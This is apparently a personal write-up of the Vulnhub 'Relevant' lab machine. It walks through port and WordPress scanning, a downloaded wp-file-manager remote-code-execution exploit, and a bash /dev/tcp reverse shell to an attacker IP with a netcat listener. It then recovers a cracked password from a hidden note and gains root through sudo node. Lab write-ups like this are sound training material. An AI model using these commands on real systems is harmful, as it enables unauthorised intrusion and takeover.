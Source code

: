 ```yaml
---
title: Vulnhub - Relevant
description: My writeup on Relevant box.
categories:
 - vulnhub
tags: vulnhub wordpress
---
```


![](https://c-link.com/wp-content/uploads/2018/12/JCT-and-Relevant-Events.jpg)

You can find the machine there > [Relevant](https://www.vulnhub.com/entry/relevant-1,568/){:target="_blank"}

## Summary

Let’s pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.15
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-07 12:36 EEST
Nmap scan report for relevant.zte.com.cn (192.168.1.15)
Host is up (0.00016s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:1E:5C:B7 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.41 seconds
$ nmap -p 22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-07 12:37 EEST
Nmap scan report for relevant.zte.com.cn (192.168.1.15)
Host is up (0.00087s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Database Error
```

Let's start the enumeration on port 80, once we visit the website we can see a "database error":

![](https://i.imgur.com/Y78bExk.png)

A `gobuster` scan shows us that is a wordpress site! But nothing works.

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
/wp-content (Status: 301)
/license.txt (Status: 200)
/wp-includes (Status: 301)
/readme.html (Status: 200)
/wp-admin (Status: 301)
```

If we run a `wpscan` scan we can see that can't detect the wordpress site or the plugins:

```
$ wpscan --no-banner --url http://$ip/ -e ap,u

Scan Aborted: The remote website is up, but does not seem to be running WordPress.
````

After digging into the help page i found the solution:

```
$ wpscan --no-banner --url http://$ip/ --force --plugins-detection aggressive -e ap,u
[+] URL: http://192.168.1.15/ [192.168.1.15]
[+] Started: Wed Oct  7 12:45:24 2020

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: nginx/1.18.0 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://192.168.1.15/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.1.15/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

Fingerprinting the version - Time: 00:00:00 <========================================================================================================> (463 / 463) 100.00% Time: 00:00:00
[+] WordPress version 5.5.1 identified (Latest, released on 2020-09-01).
 | Found By: Style Etag (Aggressive Detection)
 |  - http://192.168.1.15/wp-admin/load-styles.php, Match: '5.5.1'
 | Confirmed By: Unique Fingerprinting (Aggressive Detection)
 |  - http://192.168.1.15/wp-admin/js/common.min.js md5sum is d882c62db3212caee8464d76f47eae4a

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Aggressive Methods)
<=====================================================================================================> (89276 / 89276) 100.00% Time: 00:02:03
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] akismet
 | Location: http://192.168.1.15/wp-content/plugins/akismet/
 | Latest Version: 4.1.6 (up to date)
 | Last Updated: 2020-08-10T16:49:00.000Z
 | Readme: http://192.168.1.15/wp-content/plugins/akismet/readme.txt
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.1.15/wp-content/plugins/akismet/, status: 200
 |
 | Version: 4.1.6 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.1.15/wp-content/plugins/akismet/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://192.168.1.15/wp-content/plugins/akismet/readme.txt

[+] wp-file-manager
 | Location: http://192.168.1.15/wp-content/plugins/wp-file-manager/
 | Last Updated: 2020-09-14T19:30:00.000Z
 | Readme: http://192.168.1.15/wp-content/plugins/wp-file-manager/readme.txt
 | [!] The version is out of date, the latest version is 6.9
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.1.15/wp-content/plugins/wp-file-manager/, status: 200
 |
 | Version: 6.7 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.1.15/wp-content/plugins/wp-file-manager/readme.txt

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <===========================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] No Users Found.
```

## Shell as www-data

`wp-file-manager` seems vulnerable, after searching on google for possible exploits i found a RCE one! [exploit](https://github.com/w4fz5uck5/wp-file-manager-0day){:target="_blank"}

Let's download it & run it:

```
$ wget -q https://raw.githubusercontent.com/w4fz5uck5/wp-file-manager-0day/master/elFinder.py
$ python elFinder.py http://$ip/ whoaim
Usage: elFinder.py http://localhost
URL Shell: %s/wp-content/plugins/wp-file-manager/lib/files/x.php?cmd=<CMD>
$ whoami
www-data
```

Perfect, this shell seems unstable so let's spawn a normal reverse shell:

```
bash -c 'bash -i >& /dev/tcp/192.168.1.14/5555 0>&1'
```

Let's URL encode it:

```
$ urlencode "bash -c 'bash -i >& /dev/tcp/192.168.1.14/5555 0>&1'"
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.14%2F5555%200%3E%261%27
```

& We have shell:

```
$ nc -lvp 5555
listening on [any] 5555 ...

www-data@relevant:~/html/wp-content/plugins/wp-file-manager/lib/files$ python3 -c 'import pty; pty.spawn("/bin/bash")'                
www-data@relevant:~/html/wp-content/plugins/wp-file-manager/lib/files$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as news

This privesc is kinda tricky, user "h4x0r" has a hidden directory named `...`:

```
www-data@relevant:/home/h4x0r$ ls -la
total 28
drwxr-xr-x 4 h4x0r h4x0r 4096 Sep 21 20:16 .
drwxr-xr-x 5 root  root  4096 Sep 21 19:50 ..
drwxr-xr-x 2 h4x0r h4x0r 4096 Sep 21 20:15 ... <---
lrwxrwxrwx 1 h4x0r h4x0r    9 Sep 21 20:16 .bash_history -> /dev/null
-rw-r--r-- 1 h4x0r h4x0r  220 Sep 21 19:50 .bash_logout
-rw-r--r-- 1 h4x0r h4x0r 3771 Sep 21 19:50 .bashrc
drwxrwxr-x 3 h4x0r h4x0r 4096 Sep 21 20:06 .local
-rw-r--r-- 1 h4x0r h4x0r  807 Sep 21 19:50 .profile
```

Into this directory, a `note.txt` exists:

```
www-data@relevant:/home/h4x0r/...$ cat note.txt
news : 4C7EB317A4F4322C325165B4217C436D6E0FA3F1
```

Let's use [crackstation](https://crackstation.net/){:target="_blank"} to crack it. We have the password `backdoorlover` Now we can switch to user `news`:

```
www-data@relevant:/home/h4x0r/...$ su - news
Password: backdoorlover

news@relevant:/home/h4x0r/...$ whoami;id
news
uid=9(news) gid=9(news) groups=9(news)
```

## Shell as root

Checking `sudo -l` we can see that we can run `node` as root:

```
news@relevant:/home/h4x0r/...$ sudo -l
[sudo] password for news: backdoorlover

Matching Defaults entries for news on relevant:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User news may run the following commands on relevant:
    (ALL : ALL) /usr/bin/node
```

[gtfobins](https://gtfobins.github.io/gtfobins/node/#sudo){:target="_blank"} page says how to exploit it:

```
news@relevant:/home/h4x0r/...$ sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Fun box! :smile:
